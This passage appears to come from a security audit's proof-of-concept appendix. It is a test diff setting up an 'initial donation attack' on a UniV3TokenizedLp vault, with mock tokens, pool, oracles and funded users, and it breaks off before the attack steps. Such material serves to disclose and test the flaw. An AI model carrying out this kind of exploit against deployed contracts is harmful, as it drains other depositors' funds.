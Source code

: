 ## Appendix: PoC

```diff
diff --git a/test/zap/uniV3tokenizedLP.test.ts b/test/zap/uniV3tokenizedLP.test.ts
index b6e17af9..3b02a607 100644
--- a/test/zap/uniV3tokenizedLP.test.ts
+++ b/test/zap/uniV3tokenizedLP.test.ts
@@ -162,6 +162,88 @@ describe('UniV3TokenizedLP:', function () {
                };
        }

+       it('UniV3TokenizedLp initial donation attack poc', async () => {
+               // 1. Init poc env
+               console.log(">>>>> Init poc env");
+               const tokenFactory = await ethers.getContractFactory('MockToken');
+               const usdc = await tokenFactory.deploy('USD Coin', 'USDC', 6);
+               const weth = await tokenFactory.deploy('Wrapped Ether', 'WETH', 18);
+               const {factory, router, quoter, createAndFundPool} = await uniV3CoreFixture(weth.address);
+               const [creator, user1, user2, user3] = await ethers.getSigners();
+               await weth.mint(creator.address, POOL_WETH_RESERVE);
+               await usdc.mint(creator.address, POOL_USDC_RESERVE);
+               const poolAddr = await createAndFundPool(
+                       creator,
+                       usdc,
+                       weth,
+                       POOL_FEE_TIER,
+                       POOL_USDC_RESERVE,
+                       POOL_WETH_RESERVE
+               );
+               const samplePool = await ethers.getContractAt('UniswapV3Pool', poolAddr);
+               const MockOracleFactory = await ethers.getContractFactory('MockChainlinkAggregator');
+               const wethUsdOracle = await MockOracleFactory.deploy(ethers.utils.parseUnits(FAKE_WETH_USD_PRICE, 8));
+               const usdcUsdOracle = await MockOracleFactory.deploy(ethers.utils.parseUnits('1', 8));
+               const uniV3PoolMath = await (await ethers.getContractFactory('UniV3PoolMath')).deploy();
+               const tokenizedLPFactory = await ethers.getContractFactory('UniV3TokenizedLp', {
+                       libraries: {UniV3PoolMath: uniV3PoolMath.address},
+               });
+               const uV3TokenizedLp: UniV3TokenizedLp = <UniV3TokenizedLp>(
+                       await upgrades.deployProxy(
+                               tokenizedLPFactory,
+                               [
+                                       samplePool.address,
+                                       true,
+                                       true,
+                                       Number(usdc.address) < Number(weth.address) ? usdcUsdOracle.address : wethUsdOracle.address,
+                                       Number(usdc.address) < Number(weth.address) ? wethUsdOracle.address : usdcUsdOracle.address,
+                               ],
+                               {initializer: 'initialize', unsafeAllow: ['constructor', 'external-library-linking']}
+                       )
+               );
+
+               await weth.mint(user1.address, ethers.utils.parseUnits('10', 18));
+               await weth.mint(user2.address, ethers.utils.parseUnits('10', 18));
+               console.log(">> user1's WETH balance: " + await weth.balanceOf(user1.address));
+               console.log(">> user2's WETH balance: " + await weth.balanceOf(user2.address));
```